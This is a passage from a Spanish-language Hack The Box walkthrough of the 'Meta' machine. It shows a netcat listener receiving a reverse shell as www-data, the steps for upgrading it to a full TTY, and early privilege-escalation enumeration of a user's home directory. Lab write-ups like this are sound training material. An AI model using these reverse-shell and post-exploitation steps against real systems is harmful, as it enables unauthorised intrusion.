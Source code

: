 ``` 
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.140] 37182
bash: cannot set terminal process group (638): Inappropriate ioctl for device
bash: no job control in this shell
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ 
```
¡¡¡¡Y recibimos la reverse shell!!!.

## Primera escalada

Tendremos que realizar el tratamiento de la tty:
```
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ ^Z
zsh: suspended  nc -nlvp 443
```
Sale a mi terminal local. Seguimos con el tratamiento:
```
> stty raw -echo; fg
        reset xterm
``` 
Y volvemos a la máquina objetivo para acabar el tratamiento:
```
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ export TERM=xterm
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ export SHELL=bash
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ stty rows 38 columns 184
```
Teniendo ya una tty en condiciones veamos quienes somos y como podemos escalar privilegios:
``` 
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ ls -la
total 36
drwxr-xr-x 7 root www-data 4096 Aug 28  2021 .
drwxr-xr-x 4 root root     4096 Oct 18  2021 ..
drwxr-xr-x 2 root www-data 4096 Aug 28  2021 assets
-rw-r--r-- 1 root www-data   72 Aug 28  2021 composer.json
drwxr-xr-x 2 root www-data 4096 Aug 28  2021 css
-rw-r--r-- 1 root www-data 2786 Aug 29  2021 index.php
drwxr-xr-x 2 root www-data 4096 Aug 28  2021 lib
drwxrwxr-x 2 root www-data 4096 May 17 05:03 uploads
drwxr-xr-x 3 root www-data 4096 Aug 28  2021 vendor
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ cd /home
www-data@meta:/home$ ls -la
total 12
drwxr-xr-x  3 root   root   4096 Aug 29  2021 .
drwxr-xr-x 18 root   root   4096 Aug 29  2021 ..
drwxr-xr-x  4 thomas thomas 4096 Jan 17  2022 thomas
www-data@meta:/home$ cd thomas
www-data@meta:/home/thomas$ ls -la
total 32
drwxr-xr-x 4 thomas thomas 4096 Jan 17  2022 .
drwxr-xr-x 3 root   root   4096 Aug 29  2021 ..
lrwxrwxrwx 1 root   root      9 Aug 29  2021 .bash_history -> /dev/null
-rw-r--r-- 1 thomas thomas  220 Aug 29  2021 .bash_logout
-rw-r--r-- 1 thomas thomas 3526 Aug 29  2021 .bashrc
drwxr-xr-x 3 thomas thomas 4096 Aug 30  2021 .config
-rw-r--r-- 1 thomas thomas  807 Aug 29  2021 .profile
drwx------ 2 thomas thomas 4096 Jan  4  2022 .ssh
-rw-r----- 1 root   thomas   33 May 17 04:09 user.txt
``` 